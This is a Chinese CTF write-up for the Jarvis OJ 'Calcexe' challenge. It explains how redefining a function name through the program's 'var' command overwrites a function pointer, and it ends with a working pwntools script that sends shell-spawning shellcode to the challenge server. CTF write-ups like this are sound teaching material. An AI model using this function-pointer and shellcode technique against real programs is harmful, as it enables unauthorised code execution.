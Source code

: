 ```yaml
---
title: Jarvis OJ - Calcexe の Write-Up
date: 2021-02-04 14:28:26
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
---
```

## Introduction

题目捎带迷惑性，文件后缀为`.exe`，看起来是windows下的运行程序，结果在windows上根本无法运行。

<!-- more -->

## Step 1

checksec：

![](/img/Calcexe/Calcexe1.png)

依然是32位的ELF文件。

将程序在IDA中打开，在main函数中发现定义了10个功能：

![](/img/Calcexe/Calcexe2.png)

这是功能申明函数sub_804A719：

![](/img/Calcexe/Calcexe3.png)

所以程序运行是这样的：

![](/img/Calcexe/Calcexe4.png)

## Step 2

由于程序很长，所以就挑选关键部分来说。 程序申明了10个函数，如果能够控制这些函数的指针那么就可以控制程序跳转执行shellcode。

而在主函数后发现处理function的函数：

![](/img/Calcexe/Calcexe5.png)

`strtok()`是分割字符串的函数，这里用来处理空格。0x61是`'='`，0x34是`'“'`，所以根据伪代码发现程序允许通过`var`参数声明变量，命令格式为`var variable = “value”`。

这一段程序中还提到了下面的函数：

![](/img/Calcexe/Calcexe6.png)

分析sub_804A820函数发现程序寻址是通过比较变量名实现的，所以即使`var add = “eval”`也是程序允许的，这样我们就可以控制函数指针了。因此直接把某个函数的method改成shellcode即可。

## Step 3

解题脚本如下：

```
from pwn import *

context(arch = 'i386', os = 'linux')

sh = remote("pwn2.jarvisoj.com", 9892)

shellcode = asm(shellcraft.sh())
payload = 'var add = "'+ shellcode + '"'

sh.sendlineafter(">", payload)
sh.sendline('+')

sh.interactive()
sh.close()
```

脚本运行结果：

![](/img/Calcexe/Calcexe7.png)
